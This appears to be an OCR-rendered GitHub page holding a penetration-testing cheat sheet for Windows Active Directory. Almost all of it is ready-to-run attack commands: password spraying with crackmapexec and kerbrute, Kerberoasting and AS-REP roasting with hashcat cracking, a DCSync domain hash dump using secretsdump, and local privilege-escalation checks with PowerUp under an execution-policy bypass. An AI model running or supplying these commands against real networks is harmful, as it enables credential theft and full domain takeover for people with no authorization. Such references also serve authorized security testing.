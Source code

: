 
## Authentication Attacks

### Password Spraying

```bash
# Spray Attack
crackmapexec smb targets.txt -u users.txt -p 'Password123!' --continue-on-success

# Kerbrute Password Spray
kerbrute passwordspray -d domain.com users.txt 'Password123!'
```

### Kerberoasting

```bash
# Request Service Tickets
python3 GetUserSPNs.py -request -dc-ip dc-ip domain.com/username:password

# Crack with Hashcat
hashcat -m 13100 kerberoast.hash rockyou.txt
```

### ASREPRoasting

```bash
# Find Users with Pre-auth Disabled
python3 GetNPUsers.py -dc-ip dc-ip -request domain.com/

# Crack ASREPRoast Hashes
hashcat -m 18200 asreproast.hash rockyou.txt
```

### DCSync Attack

```bash
# Dump Domain Hashes
python3 secretsdump.py -just-dc domain.com/username:password@dc-ip

# Specific User Hash
python3 secretsdump.py -just-dc-user Administrator domain.com/username:password@dc-ip
```

---

## Privilege Escalation

### Local Privilege Escalation

```powershell
# PowerUp Enumeration
powershell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks

# Unquoted Service Paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Always Install Elevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
